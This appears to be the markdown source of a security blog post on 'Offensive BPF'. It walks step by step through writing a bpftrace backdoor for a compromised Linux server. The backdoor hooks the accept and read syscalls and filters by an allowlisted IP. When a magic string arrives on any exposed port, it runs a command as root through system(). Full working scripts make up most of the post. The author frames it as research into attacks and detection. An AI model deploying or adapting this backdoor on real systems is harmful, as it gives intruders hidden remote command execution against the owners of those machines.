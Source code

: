 ```yaml
---
title: "Offensive Bpf: Using bpftrace to create more advanced backdoors"
date: 2021-10-10T11:30:13-07:00
draft: true
tags: [
        "pentest", "red","research","ebpf","blue"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Offensive BPF - Using bpftrace to create more advanced backdoors 🤯"
  description:  "Using eBPF in offensive security settings and mitigations"
  image: "https://embracethered.com/blog/images/2021/obpf.png"

---
```


This post is part of a series about **Offensive BPF** that I'm working on to learn about BPF to understand attacks and defenses, click the ["ebpf"](/blog/tags/ebpf) tag to see all relevant posts.

I'm learning BPF to understand how its use will impact offensive security, malware and detection engineering. 

![Offensive BPF](/blog/images/2021/offensive-bpf.png)

In the last post I described my learnings of building a rather basic bpftrace script that install a BPF backdoor program. This post will dive into this idea more by leveraging more complex 

Let's get going.

# Building a message-based trigger

What I really wanted is some kind of message-based trigger that runs when a "secret backdoor message" arrives on any port.

This is where I started learning a lot... 

I spent time reading Linux source code and how TCP parsing works with `struct msghdr *` and related data structures. It's all a bit convoluted. 

Searching through hook points with `bpftrace` identified a point of interest.

```
$ sudo bpftrace -lv 'tracepoint:*enter_read' 
BTF: using data from /sys/kernel/btf/vmlinux
tracepoint:syscalls:sys_enter_read
    int __syscall_nr;
    unsigned int fd;
    char * buf;
    size_t count;
```

About the command line options:

* `-l`:  lists all the tracepoints, kprobes, uprobes that match provided string
* `*`: Awesome: You can also use `*` as wildcards in the search
* `-v`: shows data structures details (very useful). This didn't work before upgrading to a very recent Ubuntu version

I wanted to read and print the `char * buf`. But when coding this, `sys_enter_read` gets called BUT that buffer is not yet filled with data - so how to access the data?

## Grasping "Enter" and "Exit" tracing to read buffers

It took me a bit to grasp how enter and exit tracepoints work in unison to achieve the desired result. 

In retrospect it seems obvious, but for anyone starting this explanation should help:

Exit tracepoints (e.g. `sys_exit_read`) don't have access to the arguments passed into the function. 

This puzzled me for a while... 

The way to handle this is to use the `sys_enter_read` hook **to store a pointer to the buffer in a thread local variable**. Then use the `sys_exit_read` hook **to read that pointer** again.

In the exit hook the buffer (in this case `buf`) is filled with the data. The `sys_exit_*` functions have a `ret` value that tells you about the length of the buffer to read.

After figuring that out, everything fell into place, and I made quick progress.

Here is what this means in `bpftrace` code:

```
tracepoint:syscalls:sys_enter_read
{ 
     @sys_read[tid] = args->buf;
}
```

This stores the `buf` pointer in `@variable[tid]`. In this case I named the varialble `@sys_read`.

Then in `sys_exit_read` the pointer is extracted, and we read the buffer as string.

```
tracepoint:syscalls:sys_exit_read
/ @sys_read[tid] /   
{ 
  $cmd = str(@sys_read[tid], args->ret);
  printf("<-sys_exit_read(tid:%d): len: %d, buf: %s\n", tid, args->ret, $cmd);
  
  if ($cmd == "OhhhBPF!\n")
  {   
    system("whoami >> /proc/1/root/tmp/o");
  }

  printf("<-sys_exit_read(tdi:%d): Done.\n", tid);
}
```

If the content of the buffer (now in variable `$cmd`) contains the word "`OhhhBPF!\n`" the program will run a simple `whoami` and store the result in a file. Notice the file path, using that namespace is another thing that took me quite a while to figure out.

### Applying a Filter

A new concept in this example is applying a `filter` by using `/ @sys_read[tid] /`. This filters only calls that are relevant. If you want to filter by a certain process name specify it like: `/ comm="nc" /`
 
But that's it. At this point the program works as intended!


## Improvements: Tracing only socket reads!

At that point reading buffers worked. It is noisy because all the `reads()` syscalls are traced, even though only socket connections are of interest.

There is probably a better way to do this, but with the newly acquired `bcptrace` chops, I thought to:

* Hook the socket `accept` call via the `syscalls:sys_enter_accept4` trace point. I learned about by the correct method to trace (`accept4`) by observing the systems calls of a `netcat` server, by running: `strace nc -lkv 20000` 
* Add an IP address allow check to only allow a specific IP to cause the trigger
* Store the file descriptor `fd` during `accept` in `@sys_accept[tid]` - so we keep track of which `fd` came from a socket
* Update the `sys_enter_read` to ensure the read's file descriptor matches the one we stored

This the resulting code:

```
#include <net/sock.h>

BEGIN
{
    printf("Welcome to Offensive BPF... Use Ctrl-C to exit.\n");
}

tracepoint:syscalls:sys_enter_accept4 
{ 
  printf("->accept: Comm: %s, Allowed IP: %u", comm, $1 );

  $sk4=(struct sockaddr_in  *) args->upeer_sockaddr; 
  if ($sk4->sin_family == AF_INET) 
  { 
    $ip4 = $sk4->sin_addr;
    if ($ip4 == 123456789) // whitelisted IP as integer
    {
      printf("->accept: *IPv4: fd:%d -- %s\n", args->fd, ntop($ip4) ); 
      @sys_accept[tid] = args->fd;  
    }
  } 
}

tracepoint:syscalls:sys_enter_read
{ 
  //only trace inet fd's
  if (args->fd == (uint64) @sys_accept[tid])
  {
     @sys_read[tid] = args->buf;
  }   
}

tracepoint:syscalls:sys_exit_read
/ @sys_read[tid] /   
{ 
  $cmd = str(@sys_read[tid], args->ret);
  printf("<-sys_exit_read(tid:%d): len: %d, buf: %s\n", tid, args->ret, $cmd);
  
  if ($cmd == "OhhhBPF: whoami\n")
  {   
    system("whoami >> /proc/1/root/tmp/o");
  }
 
  printf("<-sys_exit_read(tdi:%d): Done.\n", tid);
}

END
{
    clear(@sys_read);
    clear(@sys_accept);
    printf("Exiting. Bye.\n");
}
```

After these changes the program works well, and without noise!

## BPF Backdoor in Action

After launching the BPF program on the compromised server, connecting to any port that is exposed on the server, and sending the "magic string" will run the backdoor program!

Mind blown!